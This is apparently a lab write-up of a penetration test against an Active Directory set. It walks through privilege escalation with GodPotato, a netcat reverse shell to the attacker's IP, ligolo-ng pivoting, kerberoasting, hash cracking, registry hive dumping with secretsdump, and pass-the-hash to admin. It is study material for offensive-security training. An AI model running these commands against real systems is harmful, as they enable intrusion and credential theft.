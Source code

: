 # Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```

ok i gave up on chisel and came back on ligolo, after downloading ligolo agent for windows and proxy for linux, on my kali box i ran&#x20;

```
tar -xvzf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

and on my windows session i ran:

```
./agent.exe --connect 192.168.45.238:11601 -ignore-cert
```

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

Then in another terminal i type:

```
sudo ip route add 10.10.87.0/24 dev ligolo
```

and i go back in the kali ligolo shell and type:

```
session
1
start
```

And i can now ping the internal network:&#x20;

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

Then i start my enumeration over again and look for open ports:

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

then i look for open shares:

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

I go and download everything in Users share and find a lot of stuff:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

I started looking through each file but it was very long so i told myself that i'll continue enumeration and found something:

```
nxc ldap 10.10.87.140 -u Eric.Wallows -p EricLikesRunning800 --kerberoasting kerb.out
```

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the password of web\_svc with command:

```
hashcat -m13100 websvc.hash /usr/share/wordlists/rockyou.txt
```

And we confirm we have the good credentials:

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Then i went back and privesc to dump hashes:

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

was able to secretsdump&#x20;

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

With the default creds i can connect to celia.almeda: via evil winrm

Then i find a windows.old folder that contains in /windows/system32 a sam and system hive that i export back to my attackbox and crack:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to use pass the hash to connect as tom admin:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And get the proof.txt on the admin Desktop
